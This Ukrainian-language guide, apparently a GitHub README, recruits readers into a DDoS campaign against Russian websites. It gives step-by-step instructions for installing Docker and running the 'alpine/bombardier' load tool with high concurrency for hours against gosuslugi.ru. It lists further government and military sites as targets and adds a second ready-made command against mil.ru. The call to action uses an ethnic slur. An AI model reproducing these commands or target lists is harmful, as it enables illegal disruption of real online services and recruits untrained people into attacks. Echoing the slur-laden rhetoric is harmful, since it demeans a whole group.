 # Валимо русню РАЗОМ!!! 
## Якщо не можете фізично, то можете інформаційно! Внизу кроки для організації DDoS-атаки з вашого комп'ютера.  

1. Завантажуємо Docker та встановлюємо на свій комп'ютер:  
`Windows`: https://docs.docker.com/desktop/windows/install  
`MacOS`: https://docs.docker.com/desktop/mac/install  
Важливо відкрити після цього програму `Docker`. Якщо після відкриття з'являється помилка з текстом `WSL 2 installation is incomplete` завантажуємо та встановлюємо драйвер тут: https://wslstorestorage.blob.core.windows.net/wslblob/wsl_update_x64.msi  
Після цього повинно працювати. Якщо просить перезавантажити комп'ютер - робимо це.

2. Відкриваємо консоль:  
`Windows`: комбінація клавіш `win + r`. В полі `Відкрити:` пишемо `cmd`. Жмакаємо `Enter`.  
`MacOS`: комбінація клавіш `Command(⌘) + пробіл` (інколи `Ctrl + пробіл`). В поле пошуку вводимо `terminal`. Жмакаємо `Enter`.  
Повинно появитися чорне вікно з мигаючим курсором.

3. В консолі вписуємо наступну команду:
```
docker run --rm -it alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
Інформація по параметрах команди:  
`-c 1000` - скільки буде відбуватися одночасно запитів на вказане посилання. Не потрібно вписувати дуже великі числа. Все залежить від потужностей вашого комп'ютера. Але можете поексперементувати і вказати більше або менше ніж 1000.  
`-d 3600s` - час в секундах, протягом якого будуть відбуватися запити. В команді вказано час на 1 годину, але можна поставити більше. Час вказувати в секундах, після кількості секунд дописати букву `s`.  
Жмакаємо `Enter`. 

4. Насолоджуємся і уявляємо як русня бігає в офісі роскомнадзору і дує на свої сервера, щоб вони не загорілись.

P. S.: дані кроки можна повторювати багато разів для різних сайтів. Просто змінюємо посилання на одне з наступних:  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://scrf.gov.ru  
https://mil.ru  

Наприклад:
```
docker run --rm -it alpine/bombardier -c 700 -d 7200s -l https://mil.ru
```
